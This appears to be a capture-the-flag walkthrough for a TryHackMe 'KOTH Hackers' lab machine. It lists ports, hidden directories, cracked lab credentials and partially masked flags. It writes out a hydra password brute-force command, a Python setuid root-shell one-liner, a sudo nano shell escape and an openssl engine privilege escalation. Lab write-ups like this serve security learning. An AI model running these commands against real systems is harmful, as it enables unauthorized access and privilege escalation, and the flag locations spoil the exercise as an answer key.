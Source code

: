 # KOTH HACKERS<br />

-------------
## IP: `10.10.68.205`<br />

----------------------
### Open Ports -<br />

```
21
22
80
9999
```

----------------------
#### hidden directories -<br />

```
/news
/contact
/img
/staff
/backdoor
```

----------------------
> first flag -<br />

```
thm{b6.............................}
```
`in the source code of default page on port 80`<br />

> second flag -<br />

```
thm{67.............................}
```
`in the hidden files on anonymous login with ftp ls  -la`<br />

-----------------------
##### Credentials -<br />


username: rcampbell<br />
password: cinderella<br />

username: gcrawford<br />
password: evelina<br />

`via hydra`<br />

-----------------------
> third flag -<br />

```
thm{12.............................}
```
`in the hidden files in ftp login with rcampbell ls -la` <br />

-----------------------
##### Login via ssh with rcampbell and search for `capabilities`<br />

```
getcap -r / 2>/dev/null
```
```
python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```

##### Crack the passphrase for `id_rsa` of gcrawford<br />

```
id_rsa:stephani
```
##### privilege escalation of `gcrawford` user<br/>

```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```
##### Crack the password for [backdoor](http://10.10.68.205/backdoor)<br />

username: plague<br />
password: tonyhawk<br />

```
hydra -l plague -P /usr/share/wordlists/rockyou.txt 10.10.68.205 http-post-form "/api/login:username=^USER^&password=^PASS^:Incorrect"
```

##### You can get a rev shell with user `production` logged in and can achieve privilage escalation using -<br />

```
sudo openssl req -engine ./shell.so
```

-----------------------
> fourth flag - <br />

```
thm{b9.............................}
```
`in the root directory`<br />
> fifth flag -<br />

```
thm{d8.............................}
```
`in the home directory of gcrawford, within business.txt`<br />

> sixth flag - <br />

```
thm{87.............................}
```
`in the home directory of production`<br />

> seventh flag - <br />

```
thm{3c.............................}
```
`in the home directory of tryhackme`<br />

> eighth flag -

```
thm{21.............................}
```
`in /etc/vsftpd.conf`<br />

> ninth flag -

```
thm{06.............................}
```
`in /etc/ssh/sshd_config`
